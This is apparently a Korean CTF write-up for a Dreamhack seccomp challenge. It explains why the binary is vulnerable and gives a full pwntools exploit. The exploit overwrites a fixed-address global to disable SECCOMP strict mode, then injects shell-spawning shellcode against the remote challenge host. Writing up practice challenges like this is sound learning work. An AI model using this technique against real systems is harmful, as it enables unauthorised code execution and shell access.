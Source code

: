 ```c
    return 0;
}
```

### Vulnerability Scanning

- `checksec`
    
    <p align="center">
   	    <a href="/assets/images/TIL220904/Untitled (2).png">
            <img src="/assets/images/TIL220904/Untitled (2).png" width="300">
        </a>
    </p>
    
- 1번 메뉴로 **원하는 shellcode를 입력**한 뒤 2번 메뉴로 이를 **실행**할 수 있다.
- 3번 메뉴로 **arbitrary address에 write**이 가능하다.
- `mode` 전역 변수가 `SECCOMP_MODE_STRICT`으로 설정되어 있고, `prctl`을 이 `mode`로 실행하므로 SECCOMP이 STRICT MODE로 실행되었음을 알 수 있다.

### Exploit

**PIE가 적용되어 있지 않으므로 `mode`의 주소가 일정**하다. 따라서 3번 메뉴로 `mode`**의 값을 0으로 overwrite**하여 `syscall_filter`가 실행되었을 때 **SECCOMP이 적용되지 않도록** 하고, shellcode를 실행하면 된다.
```
from pwn import *

#p = process("./seccomp")
p = remote("host3.dreamhack.games", 19791)
#context.terminal = ["tmux", "splitw", "-h"]
#gdb.attach(p)
context.arch = "amd64"

p.sendlineafter("> ", "3")

p.sendlineafter("addr: ", str(0x602090)) # mode의 주소
p.sendlineafter("value: ", "0")

p.sendlineafter("> ", "1")
sc = shellcraft.sh()
p.sendafter("shellcode: ", asm(sc))

p.sendlineafter("> ", "2")

p.interactive()
```